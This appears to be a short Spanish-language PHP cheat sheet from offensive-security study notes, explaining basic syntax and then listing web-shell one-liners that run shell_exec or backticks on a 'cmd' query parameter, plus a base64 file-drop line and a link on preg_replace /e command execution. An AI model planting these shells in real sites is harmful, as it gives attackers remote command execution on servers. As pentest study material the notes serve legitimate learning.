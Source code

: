 ------------

```php
# Ejecutar un "console.log" que se va a interpretar y mostrar en la web
echo "Esto es un texto que se va a interpretar";
# Declaración de variable
$nombre = 'Dobliuw'; 
# Obtener por query un valor bajo el nombre "cmd"
$_GET['cmd'];
$_REQUEST['cmd'];
# Usar etiquetas pre formateadas para unir (.) un comando ejecutado a nivel de sistema (shell_exec) de una query que obtenemos bajo el nombre "cmd"
# Las etiquetas pre formateadas son para que el output no se vea todo en la misma linea
echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
# Formas alternas de obtener por query un valor a la par que ejutarlo
<?=`$_GET[0]`?>
# Crear un archivo con contenido dentro
file_put_contents('file.name', base64_decode('{content.base64}')
```

# Vulnerabilidades

- ## preg_replace() con /e. [Vuln](https://captainnoob.medium.com/command-execution-preg-replace-php-function-exploit-62d6f746bda4)
